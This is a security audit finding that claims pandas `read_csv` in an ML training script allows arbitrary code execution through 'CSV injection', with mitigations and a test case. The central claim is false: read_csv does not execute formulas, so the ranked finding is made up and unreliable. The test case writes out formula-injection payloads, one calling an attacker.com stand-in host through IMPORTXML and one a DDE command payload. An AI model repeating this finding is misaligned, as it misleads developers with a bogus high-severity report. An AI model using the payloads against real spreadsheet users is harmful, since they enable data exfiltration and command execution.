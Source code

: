 - Description:
    1. An attacker crafts a malicious CSV file containing code designed for CSV injection vulnerabilities in pandas `read_csv` function.
    2. The user, intending to train a model using this project's example, configures their ML pipeline to use the attacker's malicious CSV file as the training dataset. This could happen if the user's data source is compromised or if the attacker can influence the data before it's used in the pipeline.
    3. When the training script `/code/src/model/train.py` executes, it uses pandas `pd.read_csv()` to load the training data from the attacker-controlled CSV file.
    4. Due to the CSV injection vulnerability, malicious code embedded in the CSV is executed during the data loading process.
- Impact:
    Arbitrary code execution on the machine running the training pipeline. This could lead to data exfiltration, system compromise, or other malicious activities.
- Vulnerability Rank: High
- Currently Implemented Mitigations: None
- Missing Mitigations:
    - Input validation and sanitization of CSV files before loading. This could involve checking for and escaping or rejecting potentially harmful characters or patterns in the CSV data.
    - Using secure data loading methods that are not vulnerable to CSV injection. Explore alternatives to `pd.read_csv()` if a safer option exists for the project's data format.
    - Implementing sandboxing or containerization for data processing and model training tasks to limit the impact of potential code execution vulnerabilities. Running these processes in isolated environments with restricted permissions can contain the damage.
- Preconditions:
    - The user must configure their MLOps pipeline to use a training dataset that is controlled or influenced by the attacker.
    - The training pipeline must execute the vulnerable code `/code/src/model/train.py` which uses `pd.read_csv()` to load the data.
- Source Code Analysis:
    1. Open the file `/code/src/model/train.py`.
    2. Locate the `main` function.
    3. Inside the `main` function, find the line: `df = pd.read_csv(args.input_data)`.
    4. Observe that `args.input_data`, which is user-provided input specifying the path to the training data, is directly passed to the `pd.read_csv()` function without any prior validation or sanitization.
    5. If `args.input_data` points to a malicious CSV file, the `pd.read_csv()` function is vulnerable to CSV injection, potentially leading to arbitrary code execution.
    6. Confirm that there is no input validation or sanitization performed on `args.input_data` or the content of the CSV file before it's loaded using `pd.read_csv()`.
- Security Test Case:
    1. Create a malicious CSV file named `malicious.csv` with a CSV injection payload. For example, using a formula injection payload:
       ```csv
       Column1,Column2
       =IMPORTXML(‘http://attacker.com/malicious.xml’,‘/’),value2
       ```
       **Note:** The specific payload might need to be adjusted based on the exact version of pandas and the underlying libraries to ensure successful injection. `=IMPORTXML` is used as an example, and other payloads like `=SYSTEM`, `=cmd|' /C calc'!A0` or similar might be applicable depending on the environment and pandas version.
    2. Modify the `cli/jobs/train.yml` file to use the `malicious.csv` file as input.  Change the `path` under `inputs.nyc_taxi_data` to point to the `malicious.csv` file. If testing locally, this could be a relative or absolute file path accessible to the execution environment. For testing in an Azure ML environment, the `malicious.csv` file would need to be uploaded to a datastore and the `path` should be adjusted to reference the datastore path.
    3. Run the training job using the modified `cli/jobs/train.yml`. Execute the script using: `bash ./scripts/jobs/train.sh`.
    4. Monitor the execution logs and system behavior for signs of code injection. For example, if the payload is designed to perform a network request (like `=IMPORTXML(‘http://attacker.com/malicious.xml’,‘/’)`), monitor for network connections to `attacker.com`. If the payload is intended to execute a system command (if possible with `pd.read_csv` and the environment), check for the effects of that command, such as file creation or process execution.